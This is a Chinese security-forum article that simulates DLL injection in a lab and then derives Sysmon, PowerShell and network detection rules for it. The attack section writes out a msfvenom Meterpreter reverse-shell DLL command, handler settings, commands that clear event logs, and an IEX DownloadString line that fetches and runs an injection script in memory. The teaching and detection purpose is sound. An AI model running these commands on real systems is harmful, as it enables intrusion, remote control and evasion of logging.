

# DLL注入的术与道：分析攻击手法与检测规则 - 先知社区

DLL注入的术与道：分析攻击手法与检测规则

- - -

**【前言】**  
在攻防对抗日渐常态化的今天，攻击者的攻击已变得越来越复杂和难以防御，而作为企业的防守人员，也需要不断努力改进技术来保护系统和数据免受威胁。本文将站在攻击者角度探讨DLL注入技术的原理以及是如何实现的，同时还会站在防守者的角度分析DLL注入的特征以及检测规则。  
因此，无论你是一名甲方安全人员、红队大佬，还是对网络安全感兴趣的个人，这篇文章都将会帮助你更好地理解DLL注入的工作原理，特征以及应对方式等。让我们一起开启本篇内容的学习吧！  
PS：因篇幅有点长，先把本篇目录列出，以帮助读者们更好地理解本篇要领！

[](https://xzfile.aliyuncs.com/media/upload/picture/20231117162045-34ce1712-8522-1.png)

**【正文】**  
\*\*1、攻击假设

**1.1、什么是DLL？\*\***  
DLL 本质上是可供其他程序使用的函数和数据的集合，可将其视为虚拟公共资源，Windows运行的任何程序都会不断地调用动态链接库，以访问各种常见函数和数据。

**1.2、DLL注入 (T1055.001)**  
参考ATT&CK攻击矩阵，进程注入的方法比较丰富，涉及到的ATTCK相关子项与API调用如下图所示。本次使用经典的远程线程注入：首先使用Windows API 调用将恶意文件路径写入目标进程的虚拟地址空间，然后创建远程线程并执行，对应ATT&CK的T1055.001，该方法需要事先将DLL存于磁盘上。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231117162136-52e51f16-8522-1.png)

**2、环境构建**  
使用Vmware安装系统镜像：Windows10（victim），kali（攻击）、Ubuntu22.04.2（日志分析）。  
在Ubuntu20.04.2安装Wireshark与Volatility；方法参考其代码仓库。Kali已内置安全框架，直接安装即可。  
Windows 10 Enterprise至Microsoft Tech Community下载。

**2.1 Sysmon**  
该工具安装时务必指定配置文件，如使用默认的参数可能导致日志记录不全面。直接参考配置文件Neo23x0-sysmon-config（Florian Roth）。安装完成后运行Powershell命令行：Get-Service sysmon验证是否安装成功，如下图所示。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231117162156-5eccd3f0-8522-1.png)

**2.2配置PowerShell ScriptBlock日志**  
PowerShell 日志类型：Module、ScriptBlock logging、Script Execution、Transcription。为了收集脚本执行日志，将配置并激活 ScriptBlock。以管理员运行Powershell，执行如下命令：  
1）更改powershell执行策略，以允许后续配置更改；

```plain
Set-ExecutionPolicy -ExecutionPolicy Bypass -Scope LocalMachine
```

2）新建ScriptBlockLogging注册表路径；

```plain
New-Item-Path HKLM:\Software\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging -Force
```

3）新增EnableScriptBlockLogging 属性为DWORD并设置为1；

```plain
New-ItemProperty-Path HKLM:\Software\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging -Name EnableScriptBlockLogging -Value 1 -PropertyType DWord -Forc
```

4）开启日志记录

```plain
wevtutil sl "Microsoft-Windows-PowerShell/Operational" /e:true
```

**2.3 其他软件**

```plain
Process Hacker：实时分析；Wireshark：流量分析。
```

**3、攻击模拟**

**3.1 生成dll文件**  
（1）在Kali VM使用msfvenom生成payload，msfvenom是Metasploit框架中的组件。命令如下：

```plain
sudo msfvenom -p windows/meterpreter/reverse_tcp Lhost=192.168.26.130 Lport=88 -f dll > /home/hacker/Desktop/evil.dll
```

Lhost 表示监听的主机，此处代表Kali主机，  
Lport 表示监听的端口.  
\-f 生成的文件类型，此处是dll。

成功执行后如下图所示：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231117162624-feb90096-8522-1.png)

（2）使用python命令(python3 -m http.server 8008)构建简单的服务，在目标机器上使用浏览器下载至桌面。在目标机器上注入此dll后，将与恶意主机建立连接。效果如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231117162639-07a28fb0-8523-1.png)

（3）接下来将在Kali启动脚本开启监听，为后续操作建立通道。

执行如下命令：

```plain
msfconsole:开启msf框架；use exploit/multi/handler：生成处理器；set payload windows/meterpreter/reverse_tcp：指定监听的地址与端口
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231117162710-1a43e3b2-8523-1.png)

当payload在目标系统上执行时，它将启动一个 TCP 回连攻击者的机器。查看参数要求并运行命令：

```plain
set LHOST 192.168.230.155set LPORT 88run
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231117162739-2b859e4a-8523-1.png)

**3.2 执行注入**  
（1）开启WireShark捕获数据包。选择正确的网卡设备进行监听

（2）清除系统当前Sysmon和PowerShell ScriptBlock日志

```plain
以管理员身份打开 PowerShell 终端，运行以下两个命令：
```

```plain
wevtutil cl “Microsoft-Windows-Sysmon/Operational”wevtutil cl “Microsoft-Windows-PowerShell/Operational”
```

（3）准备Powershell脚本  
该脚本具备实现DLL注入的功能，目的是将evil.dll注入至目标进程。项目参考PowerSpolit或者Faanross。以管理员打开powershell下载脚本并注入内存，操作如下：

```plain
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/faanross/threat.hunting.course.01.resources/main/Invoke-DllInjection-V2.ps1')
```

若无任何输出，则表示执行成功。

**3.3 注入恶意dll**  
此时进程注入脚本运行在powershell进程中，在注入evil.dll之前需要选择某个合法的进程。下面以创建可启动的 USB 驱动器程序rufus.exe为例进行注入。运行 rufus.exe并找到该进程 ID，将其作为参数传递给注入脚本。运行以下命令：

```plain
Invoke-DllInjection -ProcessID 1480 -Dll C:\Users\admin\Desktop\evil.dll
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231117162933-6fb225f2-8523-1.png)

回到Kali系统，查看msf控制面板的输出，可观察到成功回连。如下图所示：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231117162952-7ad6e198-8523-1.png)

**3.4 执行命令**  
连接成功后，可以进一步操作受控机器，比如下载文件或执行命令查看详细信息。执行过程如下所示：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231117163008-84163ab0-8523-1.png)

**3.5日志导出**  
以管理员打开powershell，输出sysmon与powershell script命令行日志，运行如下命令：

Sysmon日志：

```plain
wevtutil epl "Microsoft-Windows-Sysmon/Operational" "C:\Users\User\Desktop\SysmonLog.evtx”
```

Powershell日志：

```plain
wevtutil epl "Microsoft-Windows-PowerShell/Operational" "C:\Users\User\Desktop\PowerShellScriptBlockLog.evtx" "/q:*[System[(EventID=4104)]]"
```

**4\. 攻击分析**

**4.1 Powershell脚本分析**  
（1）首先，恶意软件需要搜索进程以进行注入。通常使用三个应用程序接口来搜索目标进程，分别是：CreateToolhelp32Snapshot用于枚举指定进程或所有进程的堆或模块状态，并返回快照。Process32First检索关于快照中第一个进程的信息，然后在循环中使用Process32Next对其进行迭代，但本次实验中未涉及上述步骤，而是指定目标进程ID，并将其作为参数传入。

（2）选取目标进程后，恶意软件调用OpenProcess获得目标进程的句柄。进程ProcessAccessFlags.All =0x001F0FFF，表示打开进程时获取了所有可能的权限，允许进行广泛的进程操作。这些权限包括读取、写入、执行、分配内存等。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231117163104-a5d11dbe-8523-1.png)

（3）调用VirtualAllocEx在目标进程中分配内存空间。参数类型为目标进程的句柄、分配内存的大小、分配内存的地址、分配类型和访问权限。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231117163118-adf7623c-8523-1.png)

（4）使用WriteProcessMemory在分配的内存中写入DLL路径名称。包括目标进程的句柄、目标进程的内存地址、要写入的数据和数据的大小。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231117163133-b6cab9b8-8523-1.png)

（5）调用RtlCreateUserThread远程进程中创建一个新线程 (也可使NtCreateThreadEx或CreateRemoteThread)，将LoadLibrary的地址传递给此API(它需要磁盘上有一个可以检测到的恶意DLL)，将该线程的执行地址设置为 $LoadLibraryAddr（kernel32.dll 中的 LoadLibraryA 函数），以便加载远程进程中的 DLL。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231117163154-c3846410-8523-1.png)

**4.2 Dll分析**  
使用IDA Pro打开evil.dll文件，可以看到此模块包含三个函数：sub\_10001000，sub\_10001050，sub\_100011A0，DllEntryPoint(导出函数)，其中sub\_10001050完成核心功能：实现进程创建与网络连接。该代码段先初始化进程启动所需的变量值（StartupInfo、IpProcessInformation 结构体）、当前工作目录、环境变量、创建标志、句柄，随后创建rundll32.exe进程，再根据条件语句判断返回值(注意cmp,jnz指令)执行loc100010cc处的代码段。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231117163218-d193d2b6-8523-1.png)

继续使用IDA将sub\_10001050转换为伪代码，如下图所示, 调用 WriteProcessMemory 函数，将地址为 unk\_10003000 的数据块推送到堆栈中，写入目标进程的内存执行。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231117163238-dd78822a-8523-1.png)

提取该处的shellcode保存为二进制文件，使用工具scdbg分析此部分shellcode功能，可以看到实际上是调用WSASocket实现的联网行为。该处的地址与端口即为handler设置的值。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231117163256-e8671f48-8523-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231117163305-edb9e322-8523-1.png)  
查看MS源码，如下图所示。除了完成以上功能外，该stager继续处理接收到的内容，首先开辟4字节的buffer用于接收第二阶段的stage，使用virtualAlloc开辟对应长度的空间，循环读取接收内容并记录当前地址ebx，最后运行ebp用于第二阶段的持续控制。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231117163332-fe184060-8523-1.png)

**4.3过程分析**  
过程回顾：  
（1）首先生成了一个恶意 DLL。  
（2）将此 DLL 传输到受害者的系统。  
（3）开启了meterpreter监听处理。  
（4）下载并执行powershell 脚本，将其注入到内存中。  
（5）运行合法进程（rufus.exe），将恶意 dll 注入到内存空间中。  
（6）注入的 DLL回连步骤3中的地址，从而建立连接。  
（7）与控制端进行通信处理接第二阶段的payload。

```plain
实际的攻击场景可能是这样：攻击者向目标主体发送鱼叉式网络钓鱼电子邮件。该员工打开了电子邮件的附件，它可能会运行嵌入的 VBA 宏，其中包含恶意代码。它负责下载攻击脚本并将其注入内存；比如利用合法进程下载并执行包含免杀功能逃避终端安全的检测。攻击者会选择某进程进行注入，通常比文件落地更难以检测。

首先使用Windows原生工具回顾攻击过程，包括：网络连接、进程、注册表项等。
```

4.3.1网络连接  
打开 PowerShell 管理终端并运行以下命令：

```plain
netstat -naob
```

命令行参数包含 o 和 b，显示每个连接中涉及的 PID 以及可执行文件的名称。查看ESTABLISHED 连接能够观察到 rundll32.exe 发起了一个网络连接，如下图所示：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231117163407-12c4d01e-8524-1.png)

它用于加载 DLL。那么问题来了：为什么它会参与出站网络连接？在日常情况下，应该立即查看有关该 IP 的更多信息。例如是内部地址，是否有与之相关的业务系统，是否网络上的其他系统也连接到它，通过关联威胁情报或IOC库查看详细信息。

4.3.2. 进程信息  
接下来需要了解上述进程的详细信息，例如运行的命令行参数、父进程、以及该进程正在使用哪些 DLL。运行命令如下：

```plain
tasklist /m /fi "pid eq 6256"
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231117163447-2a86f02e-8524-1.png)

此输出似乎没有任何异常，查看PID=6256的父进程：

```plain
wmic process where processid=6256 get parentprocessid
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231117163515-3b1155ce-8524-1.png)

其父进程 PPID 为 1480, 查看该进程名称，如下图所示：

```plain
wmic process where processid=1480 get Name
```

因此，我们看到父进程的名称是 rufus.exe。乍一看，这似乎也很不寻常——为什么用于创建可启动USB驱动器的程序会生成 rundll32.exe，然后再创建网络连接？接着查看一下命令行参数：

```plain
wmic process where processid=6256 get commandline
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231117163601-56ec84e4-8524-1.png)

我们可以看到rundll32.exe没有提供任何参数。由于 rundll32.exe通常用于执行特定DLL文件中的函数，因此会看到它附带指定 DLL 文件和它应该执行的函数的参数。

思考：目前发现2处异常点：  
（1）创建网络连接的进程及父子进程关系异常。  
（2）该进程在没有命令行参数的情况下运行异常。

4.3.3 Process Hacker  
使用 Process Hacker 等工具查看进程的关键属性：  
进程树关系  
程序签名是否合法  
当前启动目录  
命令行参数  
线程起始地址  
执行权限  
内存。

```plain
以管理员身份运行Process Hacker，筛选rufus.exe进程信息rufus.exe 详细观察以上7 个指标。
```

（1）Parent-Child relationships

[](https://xzfile.aliyuncs.com/media/upload/picture/20231117163619-61772c5c-8524-1.png)

观察到进程 rufus.exe生成了子进程 rundll32.exe，随之rundll32.exe 又生成了 cmd.exe。rundll32.exe通常用于执行DLL，此进程关系是比较可疑的。

（2）Signature

[](https://xzfile.aliyuncs.com/media/upload/picture/20231117163636-6bc1b0ce-8524-1.png)

双击进程rundll32.exe。我们可以在这里看到它有一个由微软签署的有效签名，此处暂无可疑信息。

（3）Current directory  
在同一张图中，我们可以看到当前进程的工作目录是桌面，因为它是从桌面启动的。rundll32.exe 调用 DLL 函数的合法脚本或应用程序一般为磁盘某绝对路径下的应用程序。从用户桌面等异常位置调用 rundll32.exe的情况比较可疑。

（4）Command-line arguments  
看到命令行是 rundll32.exe，之前讨论在合理场景下需要路径与命令行参数。

（5）Thread Start Address  
在“属性”窗口顶部，选择“线程”选项卡。可以在“开始地址”下看到它已被映射，表明文件它确实存在于磁盘上，表明这不是一个反射加载的 DLL。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231117163713-81b384f2-8524-1.png)

（6）Memory Permissions  
在“属性”窗口选择“内存”。向下查询观察到RWX 权限。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231117163731-8c292126-8524-1.png)

从结果中看到存在两个具有读-写-执行权限的内存空间，在正常程序执行的过程中，很少有合法程序会写入内存然后立即执行它。

（7）Memory Content  
双击size为172 kB的memory，可查看加载的内容，从图中可看出：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231117163753-99779696-8524-1.png)

两个明显标识表明该进程正在处理 Windows PE 文件。我们可以看到魔术字节 (MZ) 与 PE Dos关联的字符串。

```plain
总结：使用 Process Hacker发现异常点如下：
```

rundll32.exe 生成了cmd.exe和conhost.exe命令行执行环境；  
rundll32.exe 从桌面运行；  
该进程还具有 RWX 内存空间权限并包含 PE 文件。

4.3.4 Sysmon  
安全社区的大神推荐过较多利用sysmon进行威胁检测的演讲，如果了解更多有关 Sysmon 的详细信息，推荐连接：  
（1）Sysmon详情：[https://www.youtube.com/watch?v=6W6pXp6EojY](https://www.youtube.com/watch?v=6W6pXp6EojY)  
（2）Trustedsec：[https://www.youtube.com/playlist?list=PLk-dPXV5k8SG26OTeiiF3EIEoK4ignai7](https://www.youtube.com/playlist?list=PLk-dPXV5k8SG26OTeiiF3EIEoK4ignai7)  
（3）Sysmon for threathunting：[https://www.youtube.com/watch?v=7dEfKn70HCI](https://www.youtube.com/watch?v=7dEfKn70HCI)

打开内置的EventViewer，包含不同类型事件 ID。详细介绍参考官网或者博客Black Hills Infosec  
[https://www.blackhillsinfosec.com/a-sysmon-event-id-breakdown/](https://www.blackhillsinfosec.com/a-sysmon-event-id-breakdown/)

首先查看第一个事件ID=22，此时PowerShell 正在对raw.githubusercontent.com执行 DNS 请求。对应于IEX命令下载Web 服务器脚本。日志详情如下图所示：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231117163818-a87b3ba2-8524-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231117163840-b54c979a-8524-1.png)

命令行地址参数为raw.githubusercontent.com，因此发生了DNS 解析和Sysmon 事件ID 22。当攻击者通过初始化访问建立据点后，会访问 Web 服务器下载另一个脚本（即Payload），此行为可能会产生 DNS请求记录，该记录是检测命令与控制行为重要指标。与IP地址类似，当我们发现有外联请求时，需要确定地址是否为业务正常请求，是否为服务合法地址，是否为威胁情报黑名单，是否为已知恶意 IOC库地址。

```plain
随之我们看到event=3的网络连接，此时evil.dll被注入rufus内存，rundll32创建网络连接，回连至攻击机器的88端口。
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231117163856-bf42385e-8524-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231117163909-c6d5fd3a-8524-1.png)

然后，发生三个注册表操作，事件ID分别为13、12、13。  
第一个 (ID 13) 如下所示。可以看到 rufus.exe修改了注册表项。路径以 DisableAntiSpyware 结尾。如下图所示：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231117163922-ce7cf78c-8524-1.png)

实际上不是rufus.exe而是注入的恶意代码操作关闭MS Defender 反间谍软件功能。（备注：考虑恶意软件的行为，认为该值应该被设置为1 (DWORD (0x00000001))，表示禁用反恶意软件功能。但是测试若干次发现该值被设置为0，待进一步解决。）下一个日志条目 (ID 12) 指示注册表项上发生了删除事件。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231117163942-da8abfc8-8524-1.png)

该注册表项与上面的名称相同（DisableAntiSpyware），但是注意 TargetObject 的完整路径。第一个位于HKU...下，而这里的位于HKLM...下。HKU代表HKEY\_USERS，HKLM代表HKEY\_LOCAL\_MACHINE。HKU 配置单元包含计算机上Windows 用户配置文件的配置信息，而 HKLM 配置单元包含计算机上所有用户使用的配置数据。第一个涉及特定用户，第二个涉及整个系统。svchost.exe 进程以系统权限（最高级别的权限）运行，这使其能够修改系统范围的密钥。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231117163957-e332feec-8524-1.png)

在这里，我们可以看到与第一个条目中执行的操作相同，即先删除后设置为 1 来禁用反间谍软件功能。通过将注册表项返回到默认状态（这就是删除它的实际效果），确保系统不会出现可能干扰恶意软件操作的配置。  
最后，观察到ID 为 1 的事件，该事件是恶意软件活动重要特征。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231117164028-f5f9ede2-8524-1.png)

在这里我们可以看到Windows远程协助COM服务器可执行文件（raserver.exe）已经启动。该工具用于远程协助，允许远程用户无需邀请即可连接。此远程协助工具可以为攻击者提供远程交互式命令行或 GUI 访问，类似于远程桌面，可用于与系统交互并可能窃取数据。

4.3.5 PowerShell 脚本块  
开启特定模块的日志，Powershell日志量相对较少，如下图所示。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231117164054-0550e6b0-8525-1.png)

首先，PowerShell ScriptBlock 日志记录都是与事件 ID 4104 相关联。几乎所有条目都是成对出现。  
在第三个条目中，我们可以看到与 PowerShell 命令相关的日志，该命令从 Web 服务器下载注入脚本并将其加载到内存中。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231117164108-0dd5cc92-8525-1.png)

在现实的攻击场景中，从类似stager的进程下载具体执行内容。下一个条目展示了下载并注入内存的脚本的实际内容。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231117164125-18091b56-8525-1.png)

因此，当我们运行前面的 IEX 命令时，它会从提供的 FQDN 下载脚本并将其直接注入到内存中。每个 PowerShell ScriptBlock 日志条目后面都会跟着另一个prompt提示，以便可以输入后续命令。再往下看到将恶意 DLL 注入 rufus.exe 的命令日志条目，这是在实际攻击中看到的内容。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231117164143-22c394fe-8525-1.png)

接下来是具有完全相同时间戳的另外两个条目，其中包含我们未显式运行的命令。由于时间戳完全相同，可以假设它们是由我们运行的命令（Invoke-DllInjection -ProcessID 3468 -Dll C:\\Users\\User\\Desktop\\evil.dll）产生的。这些条目可能与程序集交互或分析程序集的过程有关，是 DLL 注入过程的一部分。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231117164156-2a0c7622-8525-1.png)

**总结：**

```plain
到目前为止我们没有深入分析攻击的过程与原理，但是通过日志我们能发掘较多异常点。在本节中，使用 Sysmon可疑收集到：
```

（1）下载注入脚本而访问的 Web 服务器的 URL、IP 和主机名;  
（2）该恶意软件操纵了DisableAntiSpyware 注册表项;  
（3）该恶意软件启动了带有 /offerraupdate 标志的 raserver.exe，从而创建了另一个潜在的后门;  
使用 PowerShell ScriptBlock 收集到：  
（1）powershell从 Web 服务器下载脚本并将其注入内存;  
（2）使用特定命令行将脚本注入到rufus.exe中，同时可疑查看 dll 注入脚本的实际内容。

4.3.6流量分析  
首先可以看到针对raw.githubusercontent.com 的 DNS 请求与响应数据包。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231117164211-33077c54-8525-1.png)

这是初始 IEX 命令访问特定 Web 服务器以下载注入脚本的地方。双击第二个数据包（响应），查看数据包详细信息可查看返回值不同的地址，可能对应不同的CDN地址。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231117164241-4501eaf2-8525-1.png)

我们可以在SIEM中立即查询该IOC，例如查看是否有于其他系统的通信、是否存在于任何威胁情报黑名单中等。在 DNS 之后，我们可以立即看到系统和 Web 服务器之间的会话。首先对证书进行身份验证，然后进行加密 (TLS) 交换。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231117164254-4d1281de-8525-1.png)

可以看到目标系统和攻击者之间建立reverse\_tcp连接。接着右键

[](https://xzfile.aliyuncs.com/media/upload/picture/20231117164311-56c9e44c-8525-1.png)

数据包，然后选择“跟随”-“TCP 流”。可查看交换的整个数据流，虽然大部分内容被加密/混淆，但是在顶部我们看到魔术字节和 dos本文，显示有Windows可执行文件头的签名标识。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231117164343-6a15368c-8525-1.png)

**5.检测规则**

rundll32.exe的使用语法如下：

```plain
rundll32.exe <dllname>,<entrypoint> <optional arguments>
```

结合上述例子我们从rundll32.exe路径开始建立几条基本的规则。

父子进程关系  
在某些场景下存在不规范的命令行参数，日志详情如下所示：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231117164548-b4dec0d4-8525-1.png)

从日志内容看为进程启动日志，但其命令行没有详细参数而且currentDirectory路径为用户桌面。该场景下规则设置条件为未包含关键字dll，再从搜索结果中观察父子进程的关系。如下图所示：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231117164600-bb9569e6-8525-1.png)

实际上该日志对应于evil.dll在后渗透阶段调用 rundll32.exe 进行回连并处理下一步的payload所产生，实际上这一场景可以通过此技巧进行检测。

(1)命令行参数  
继续关注DLL文件调用位置以及命令行参数。使用正则表达式提取DLL路径与参数，以event\_id、image、commandLine为字段建立检测规则如下所示：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231117164614-c41ab6e8-8525-1.png)

以dllname、fuction聚合统计后建立阈值，关注特定阈值下的值。例如从桌面加载evil.dll或者%temp%调用kernel32.dll，这属于可疑程度很高的行为需要进一步结合其他数据进行判断，如下图所示：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231117164635-d0650930-8525-1.png)

（2）进程路径  
Rundll32合法路径为两类:

```plain
C:\Windows\System32\rundll32.exeC:\Windows\SysWOW64\rundll32.exe
```

利用sysmon日志中的Image字段建立一条检测规则：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231117164705-e295aa92-8525-1.png)  
接下来统计出现过的路径值，尽一切可能建立正常的行为基线，排除正常路径值，关注异常值。例如以下场景就可能涉及恶意行为。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231117164715-e8b4e834-8525-1.png)

（3）网络连接  
本次模拟中，rundll32 在网络通信行为只有一处，即回连攻击机的88端口。根据研究人员观察，rundll32的网络通信行为并不活跃，对于规则运营是比较有好的。利用sysmon日志网络连接日志建立一条检测规则并对image、SourceIP、DestinationIp进行分桶聚合：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231117164730-f14fcd24-8525-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231117164740-f7611d8a-8525-1.png)

如果能结合进程启动日志，建立进程关系图就能更直观的展示行为序列，从而进行研判。

**【总结】**  
本文采用较为经典的创建线程实现注入，实际上至少有10种进程注入的实现方式，不同攻击方式可能对应不同的检测规则，后续会覆盖不同的场景。  
如果在生产环境中有更好的规则调优方法，欢迎评论区分享你的经验。  
**  
参考文章**  
\[1\][https://attack.mitre.org/techniques/T1055/](https://attack.mitre.org/techniques/T1055/)  
\[2\][http://struppigel.blogspot.com/2017/07/process-injection-info-graphic.html](http://struppigel.blogspot.com/2017/07/process-injection-info-graphic.html)  
\[3\][https://mp.weixin.qq.com/s/9v6qGqHlzD6Ee3ICOeuVvQ](https://mp.weixin.qq.com/s/9v6qGqHlzD6Ee3ICOeuVvQ)  
\[4\] [https://www.elastic.co/cn/blog](https://www.elastic.co/cn/blog)  
\[5\] [https://muchangfeng.gitbook.io/](https://muchangfeng.gitbook.io/)
